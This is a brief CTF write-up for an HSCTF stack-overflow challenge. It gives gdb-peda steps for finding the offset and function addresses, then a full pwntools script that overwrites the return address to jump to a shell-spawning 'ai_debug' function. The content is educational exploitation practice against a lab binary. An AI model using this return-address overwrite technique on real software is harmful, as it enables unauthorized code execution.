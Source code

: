 # file 
[chal](https://github.com/fahimalshihab/CTF/blob/5c2cca8d1bd3a5eccd40ad519610ad25783d7049/Binary%20Exploitation/Return%20To%20Shellcode/HSCTF)

# SOL
- found that ai_debug has bash shell so
- gdb-peda$ pattern create 100
- gdb-peda$ pattern offset AA0A    > 40
- gdb-peda$ info functions ai_debug > 0x401258
- and return address to main > 0x4012f3


```
#!/usr/bin/python3

from pwn import *

#p = remote(host, port)
elf = ELF('./chal')
p = elf.process()

offset = 40
addr = 0x401258
ret = 0x4012f3

junk = b'A' * offset
le_num = p64(addr)
le_ret = p64(ret)
buffer = junk + le_ret + le_num



p.sendline(buffer)
p.interactive()
```
